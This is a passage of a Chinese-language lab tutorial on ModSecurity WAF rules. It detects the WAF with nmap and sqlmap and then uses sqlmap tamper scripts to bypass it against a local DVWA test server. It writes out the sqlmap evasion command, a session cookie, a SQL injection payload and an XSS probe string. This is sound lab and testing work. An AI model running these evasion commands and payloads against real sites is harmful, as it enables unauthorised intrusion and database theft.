Producer: ModSecurity for Apache/2.9.0 (http://www.modsecurity.org/); OWASP_CRS/2.2.9.
Server: Apache/2.4.18 (Ubuntu)
Engine-Mode: "ENABLED"

--fdd0ea7d-Z--

--4c8fe741-A--
[12/Feb/2016:04:02:52 +0800] Vrzo7H8AAQEAAAPnIh8AAAAC 192.168.10.59 2709 192.168.10.66 80
--4c8fe741-B--
```
***
- 基本的規則都放在/usr/share/modsecurity-crs/base_rules

|                    防護規則                       |                                     概要                                        |
| ------------------------------------------------ | ------------------------------------------------------------------------------- |
| modsecurity_35_bad_robots.data                   | 惡意爬蟲規則                                                                     |
| modsecurity_35_scanners.data                     | 惡意掃描器規則                                                                   |
| modsecurity_40_generic_attacks.data              | 常見的攻擊例如命令執行(代碼執行、注入、文件包含、敏感信息洩露、HTTP響應拆分等相關規則) |
| modsecurity_50_outbound.data                     | 檢測response_body中的錯誤信息，警告信息，列目錄信息                                 |
| modsecurity_50_outbound_malware.data             | 檢測response_body中的錯誤信息，警告信息，列目錄信息                                 |
| modsecurity_crs_20_protocol_violations.conf      | HTTP協議規範相關規則                                                              |
| modsecurity_crs_21_protocol_anomalies.conf       | HTTP協議規範相關規則                                                              |
| modsecurity_crs_23_request_limits.conf           | HTTP協議大小長度限制相關規則                                                      |
| modsecurity_crs_30_http_policy.conf              | HTTP協議白名單相關規則                                                            |
| modsecurity_crs_35_bad_robots.conf               | 惡意掃描器與爬蟲規則                                                              |
| modsecurity_crs_40_generic_attacks.conf          | 常見的攻擊例如命令執行(代碼執行、注入、文件包含、敏感信息洩露、HTTP響應拆分等相關規則) |
| modsecurity_crs_41_sql_injection_attacks.conf    | SQL注入相關規則                                                                  | 
| modsecurity_crs_41_xss_attacks.conf              | XSS相關規則                                                                      |
| modsecurity_crs_42_tight_security.conf           | 目錄遍歷相關規則                                                                  |
| modsecurity_crs_45_trojans.conf                  | webshell相關規則                                                                 |
| modsecurity_crs_47_common_exceptions.conf        | Apache異常相關規則                                                               |
| modsecurity_crs_48_local_exceptions.conf.example |                                                                                 |
| modsecurity_crs_49_inbound_blocking.conf         | 協同防禦相關規則                                                                  |
| modsecurity_crs_50_outbound.conf                 | 檢測response_body中的錯誤信息，警告信息，列目錄信息                                 |
| modsecurity_crs_59_outbound_blocking.conf        | 協同防禦相關規則                                                                  |
| modsecurity_crs_60_correlation.conf              | 協同防禦相關規則                                                                  |
***

## Web RE-Attacks漏洞測試
WAF 是一種 Web 應用程式防火牆，可協助保護您的 Web 應用程式不受可能影響應用程式可用性、安全性危害、或耗用過多資源的常見 Web 入侵程式的侵擾。
### 使用nmap偵測WAF
預設系統不會安裝`namp`所以必續自己安裝：
```Bash
$ sudo apt-get install nmap
```
#### `http-waf-detect` 試圖通過使用惡意負載探測Web服務器並檢測響應代碼和主體中的變化來確定Web服務器是受IPS（入侵防禦系統），IDS（入侵檢測系統）或WAF（Web應用防火牆）保護的。
- 底下是沒有WAF防護的顯示結果
```Bash
$  nmap -p 80,433 --script=http-waf-detect 192.168.10.66
Starting Nmap 6.40 ( http://nmap.org ) at 2018-04-14 21:20 CST
Nmap scan report for 192.168.10.66.ksu.edu.tw (192.168.10.66)
Host is up (0.00030s latency).
PORT    STATE  SERVICE
80/tcp  open   http
433/tcp closed unknown
MAC Address: B8:27:EB:E8:A4:E5 (Raspberry Pi Foundation)

Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds
```
- 底下是有WAF防護的顯示結果
```Bash
$  nmap -p 80,433 --script=http-waf-detect 192.168.10.66
Starting Nmap 6.40 ( http://nmap.org ) at 2018-04-14 21:20 CST
Nmap scan report for 192.168.10.66.ksu.edu.tw (192.168.10.66)
Host is up (0.00030s latency).
PORT    STATE  SERVICE
80/tcp  open   http
| http-waf-detect: IDS/IPS/WAF detected:
|_192.168.10.66.ksu.edu.tw:80/?p4yl04d3=<script>alert(document.cookie)</script>
433/tcp closed unknown
MAC Address: B8:27:EB:E8:A4:E5 (Raspberry Pi Foundation)

Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds
```
#### `http-waf-fingerprint` 嘗試檢測Web應用程序防火牆及其類型和版本的存在。
```Bash
$ nmap --script=http-waf-fingerprint --script-args http-waf-fingerprint.intensive=1 192.168.10.66
Starting Nmap 6.40 ( http://nmap.org ) at 2018-04-14 22:25 CST
Nmap scan report for 192.168.10.66.ksu.edu.tw (192.168.10.66)
Host is up (0.0018s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-waf-fingerprint:
|   Detected WAF
|_    Naxsi
MAC Address: B8:27:EB:E8:A4:E5 (Raspberry Pi Foundation)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```
***
### 使用SQLmap偵測WAF
sqlmap是一款開源滲透測試工具，可以自動檢測和利用SQL注入漏洞並接管數據庫服務器。
`sqlmap`預設系統也不會安裝，所以必續自己安裝：
```Bash
$ sudo apt-get install sqlmap
```
或是到官網下載使用：[http://sqlmap.org/](http://sqlmap.org/)
```github
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```
#### `-u`是要檢測的網址，`--identify-waf`是對WAF / IPS / IDS保護進行全面測試
```Bash
$ sqlmap -u "http://192.168.10.66/DVWA/vulnerabilities/brute/?username=admin&password=password&Login=Login#" --identify-waf
        _
 ___ ___| |_____ ___ ___  {1.0.4.0#dev}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 09:57:00

[09:57:01] [INFO] testing connection to the target URL
sqlmap got a 302 redirect to 'http://192.168.10.66:80/DVWA/login.php'. Do you want to follow? [Y/n]
[09:57:12] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
# 底下這行可以看到偵測到WAF
[09:57:12] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS/IDS
[09:57:12] [WARNING] dropping timeout to 10 seconds (i.e. '--timeout=10')
[09:57:12] [INFO] using WAF scripts to detect backend WAF/IPS/IDS protection
[09:57:12] [WARNING] no WAF/IDS/IPS product has been identified (this doesn't mean that there is none)
[09:57:12] [INFO] testing if the target URL is stable
[09:57:13] [WARNING] GET parameter 'username' does not appear dynamic
[09:57:13] [WARNING] heuristic (basic) test shows that GET parameter 'username' might not be injectable
[09:57:13] [INFO] testing for SQL injection on GET parameter 'username'
[09:57:13] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[09:57:13] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[09:57:13] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[09:57:14] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[09:57:14] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
[09:57:14] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[09:57:14] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace'
[09:57:14] [INFO] testing 'MySQL inline queries'
[09:57:14] [INFO] testing 'PostgreSQL inline queries'
[09:57:14] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[09:57:14] [INFO] testing 'MySQL > 5.0.11 stacked queries (SELECT - comment)'
[09:57:14] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[09:57:14] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[09:57:14] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[09:57:14] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SELECT)'
[09:57:15] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[09:57:15] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind'
[09:57:15] [INFO] testing 'Oracle AND time-based blind'
[09:57:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[09:57:15] [WARNING] using unescaped version of the test because of zero knowledge of the back-end DBMS. You can try to explicitly set it using option '--dbms'
[09:57:16] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[09:57:18] [WARNING] GET parameter 'username' is not injectable
[09:57:18] [WARNING] GET parameter 'password' does not appear dynamic
[09:57:18] [WARNING] heuristic (basic) test shows that GET parameter 'password' might not be injectable
[09:57:18] [INFO] testing for SQL injection on GET parameter 'password'
[09:57:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[09:57:19] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[09:57:19] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[09:57:19] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[09:57:19] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
[09:57:19] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[09:57:19] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace'
[09:57:19] [INFO] testing 'MySQL inline queries'
[09:57:19] [INFO] testing 'PostgreSQL inline queries'
[09:57:19] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[09:57:19] [INFO] testing 'MySQL > 5.0.11 stacked queries (SELECT - comment)'
[09:57:19] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[09:57:19] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[09:57:20] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[09:57:20] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SELECT)'
[09:57:20] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[09:57:20] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind'
[09:57:20] [INFO] testing 'Oracle AND time-based blind'
[09:57:20] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[09:57:22] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[09:57:23] [WARNING] GET parameter 'password' is not injectable
[09:57:23] [WARNING] GET parameter 'Login' does not appear dynamic
[09:57:23] [WARNING] heuristic (basic) test shows that GET parameter 'Login' might not be injectable
[09:57:23] [INFO] testing for SQL injection on GET parameter 'Login'
[09:57:24] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[09:57:24] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[09:57:24] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[09:57:24] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[09:57:24] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
[09:57:24] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[09:57:24] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace'
[09:57:24] [INFO] testing 'MySQL inline queries'
[09:57:24] [INFO] testing 'PostgreSQL inline queries'
[09:57:24] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[09:57:24] [INFO] testing 'MySQL > 5.0.11 stacked queries (SELECT - comment)'
[09:57:25] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[09:57:25] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[09:57:25] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[09:57:25] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SELECT)'
[09:57:25] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[09:57:25] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind'
[09:57:25] [INFO] testing 'Oracle AND time-based blind'
[09:57:25] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[09:57:27] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[09:57:28] [WARNING] GET parameter 'Login' is not injectable
[09:57:28] [CRITICAL] all tested parameters appear to be not injectable. Try to increase '--level'/'--risk' values to perform more tests. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp') If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could retry with an option '--tamper' (e.g. '--tamper=space2comment')
[09:57:28] [WARNING] HTTP error codes detected during run:
400 (Bad Request) - 1 times, 403 (Forbidden) - 664 times, 404 (Not Found) - 1 times
```

### 使用SQLmap繞過WAF
- Sqlmap 參數介紹:
	- `-u`：進行測試的網址
	- `--cookie`：輸入cookie參數，因為DVWA適用cookie判斷是否登入，所以要輸入參數才能登入，否則會被判斷轉換至login.php頁面
	- `--level`：要執行的測試級別
	- `--risk`：測試執行的風險
	- `--tamper`：要加入腳本測試篡改資料
	- `--flush-session`：因為測試腳本會有cache的問題，因此需要刷新測試
```Bash
$ python sqlmap.py -u "http://192.168.10.66/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=ikv86pst3juaqapnlncss7vk42" --level=5 --risk=3 --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes --flush-session
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4.18#dev}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 21:27:32

[21:27:32] [INFO] loading tamper module 'apostrophemask'
[21:27:32] [INFO] loading tamper module 'apostrophenullencode'
[21:27:32] [INFO] loading tamper module 'base64encode'
it appears that you might have mixed the order of tamper scripts. Do you want to auto resolve this? [Y/n/q] y
[21:27:34] [INFO] loading tamper module 'between'
[21:27:34] [INFO] loading tamper module 'chardoubleencode'
[21:27:34] [INFO] loading tamper module 'charencode'
[21:27:34] [INFO] loading tamper module 'charunicodeencode'
[21:27:34] [WARNING] tamper script 'charunicodeencode' is only meant to be run against ASP or ASP.NET web applications
[21:27:34] [INFO] loading tamper module 'equaltolike'
[21:27:34] [WARNING] tamper script 'equaltolike' is unlikely to work against PostgreSQL
[21:27:34] [INFO] loading tamper module 'greatest'
[21:27:34] [INFO] loading tamper module 'ifnull2ifisnull'
[21:27:34] [INFO] loading tamper module 'multiplespaces'
[21:27:34] [INFO] loading tamper module 'nonrecursivereplacement'
[21:27:34] [INFO] loading tamper module 'percentage'
[21:27:34] [WARNING] tamper script 'percentage' is only meant to be run against ASP web applications
[21:27:34] [INFO] loading tamper module 'randomcase'
[21:27:34] [INFO] loading tamper module 'securesphere'
[21:27:34] [INFO] loading tamper module 'space2comment'
[21:27:34] [INFO] loading tamper module 'space2plus'
[21:27:34] [INFO] loading tamper module 'space2randomblank'
[21:27:34] [INFO] loading tamper module 'unionalltounion'
[21:27:34] [INFO] loading tamper module 'unmagicquotes'
[21:27:34] [WARNING] using too many tamper scripts is usually not a good idea
[21:27:34] [INFO] flushing session file
[21:27:34] [INFO] testing connection to the target URL
[21:27:34] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
# 這邊偵測到WAF防護，按y接受檢測
[21:27:34] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS/IDS
do you want sqlmap to try to detect backend WAF/IPS/IDS? [y/N] y
[21:27:36] [WARNING] dropping timeout to 10 seconds (i.e. '--timeout=10')
[21:27:36] [INFO] using WAF scripts to detect backend WAF/IPS/IDS protection
[21:27:36] [CRITICAL] WAF/IPS/IDS identified as 'Generic (Unknown)'
[21:27:36] [WARNING] WAF/IPS/IDS specific response can be found in '/tmp/sqlmapNIwwqY27183/sqlmapresponse-Wm1quw'. If you know the details on used protection please report it along with specific response to 'dev@sqlmap.org'
are you sure that you want to continue with further target testing? [y/N] y
[21:27:37] [INFO] testing if the target URL content is stable
[21:27:37] [INFO] target URL content is stable
[21:27:37] [INFO] testing if GET parameter 'id' is dynamic
[21:27:37] [WARNING] currently only couple of keywords are being processed ('UNION', 'SELECT', 'INSERT', 'UPDATE', 'FROM', 'WHERE'). You can set it manually according to your needs
[21:27:37] [WARNING] GET parameter 'id' does not appear to be dynamic
[21:27:37] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[21:27:37] [INFO] testing for SQL injection on GET parameter 'id'
[21:27:37] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:27:39] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[21:27:41] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[21:27:42] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (Generic comment)'
[21:27:43] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Generic comment)'
[21:27:43] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Generic comment) (NOT)'
[21:27:44] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[21:27:44] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --code=200)
# 偵測到mysql類型資料庫，按y確定跳過偵測其他資料庫
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
[21:27:47] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[21:27:47] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[21:27:48] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[21:27:48] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[21:27:49] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[21:27:50] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[21:27:51] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[21:27:52] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[21:27:54] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[21:27:56] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[21:27:58] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[21:28:00] [INFO] checking if the injection point on GET parameter 'id' is a false positive
[21:28:01] [WARNING] it appears that some non-alphanumeric characters (i.e. ()) are filtered by the back-end server. There is a strong possibility that sqlmap won't be able to properly exploit this vulnerability
[21:28:01] [WARNING] it appears that the character '>' is filtered by the back-end server. You are strongly advised to rerun with the '--tamper=between'
# 偵測到"id"是個攻擊參數，按y跳過其他參數測試
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 650 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: id=1') AND 3898=3898#&Submit=Submit
---
[21:28:05] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[21:28:05] [INFO] the back-end DBMS is MySQL
# 完成跳過WAF防護，偵測到伺服器系統版本、網頁軟體服務、資料庫版本
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL Unknown
[21:28:05] [WARNING] HTTP error codes detected during run:
403 (Forbidden) - 4 times, 404 (Not Found) - 1 times, 414 (Request-URI Too Long) - 637 times
[21:28:05] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.10.66'

[*] shutting down at 21:28:05
```
> 參考資料: [nginx下安装配置modsecurity waf防火墙（附完整编译、配置、排错、详细规则）](http://f2ex.cn/nginx-installed-configuration-modsecurity-waf/)
>          [sqlmap针对应用 tamper高级应用](https://www.jianshu.com/p/daf468e7357f)
